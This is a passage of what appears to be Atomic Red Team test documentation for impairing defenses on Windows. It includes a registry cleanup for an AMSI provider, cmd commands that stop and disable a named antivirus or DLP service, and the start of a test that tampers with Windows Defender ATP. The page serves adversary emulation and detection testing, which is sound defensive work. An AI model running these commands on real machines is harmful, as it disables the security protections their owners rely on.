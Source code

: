 #### Cleanup Commands:
```powershell
New-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers" -Name "{2781761E-28E0-4109-99FE-B9D127C57AFE}" -ErrorAction Ignore | Out-Null
```





<br/>
<br/>

## Atomic Test #13 - Disable Arbitrary Security Windows Service
With administrative rights, an adversary can disable Windows Services related to security products. This test requires McAfeeDLPAgentService to be installed.
Change the service_name input argument for your AV solution. Upon exeuction, infomration will be displayed stating the status of the service.
To verify that the service has stopped, run "sc query McAfeeDLPAgentService"

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| service_name | The name of the service to stop | String | McAfeeDLPAgentService|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)


```cmd
net.exe stop #{service_name}
sc.exe config #{service_name} start= disabled
```

#### Cleanup Commands:
```cmd
sc.exe config #{service_name} start= auto >nul 2>&1
net.exe start #{service_name} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #14 - Tamper with Windows Defender ATP PowerShell
Attempting to disable scheduled scanning and other parts of windows defender atp. Upon execution Virus and Threat Protection will show as disabled
in Windows settings.
